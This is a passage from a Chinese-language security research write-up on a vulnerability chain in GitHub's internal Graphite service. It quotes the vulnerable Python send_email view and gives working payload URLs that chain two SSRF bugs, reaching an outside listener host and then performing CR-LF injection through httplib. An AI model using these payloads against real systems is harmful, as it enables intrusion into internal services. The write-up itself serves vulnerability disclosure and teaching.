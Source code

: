 经过几天的挖掘，我发现有一个叫做Graphite的服务运行在端口8000上。Graphite是一个高度可扩展的实时图形系统，GitHub使用这个系统向用户显示一些统计数据。

Graphite是用Python编写的，也是一个开源项目，你可以在这里下载源代码！

通过阅读源代码，我很快在这里发现了另一个SSRF。第二个SSRF很简单。

在文件webapps/graphite/composer/views.py中：

```python
def send_email(request):
    try:
        recipients = request.GET['to'].split(',')
        url = request.GET['url']
        proto, server, path, query, frag = urlsplit(url)
        if query: path += '?' + query
        conn = HTTPConnection(server)
        conn.request('GET',path)
        resp = conn.getresponse()
        ...
```

你可以看到Graphite接收用户输入的url并直接获取它！所以，我们可以使用第一个SSRF来触发第二个SSRF，并将它们组合成一个SSRF执行链。

SSRF执行链有效载荷：

```
http://0:8000/composer/send_email?
to=orange@nogg&
url=http://orange.tw:12345/foo
```

第二个SSRF的请求：

```
$ nc -vvlp 12345
...

GET /foo HTTP/1.1
Host: orange.tw:12345
Accept-Encoding: identity
```

好了，我们成功地将基于POST的SSRF变成了基于GET的SSRF。但仍然不能做任何事情。

让我们进入下一阶段！

### 第三个漏洞 - Python中的CR-LF注入

如你所见，Graphite使用Python的httplib.HTTPConnection来获取资源。经过一些尝试和错误，我注意到httplib.HTTPConnection中存在CR-LF注入。因此，我们可以在HTTP协议中嵌入恶意负载。

CR-LF注入PoC：

```
http://0:8000/composer/send_email?
to=orange@nogg&
url=http://127.0.0.1:12345/%0D%0Ai_am_payload%0D%0AFoo:
```
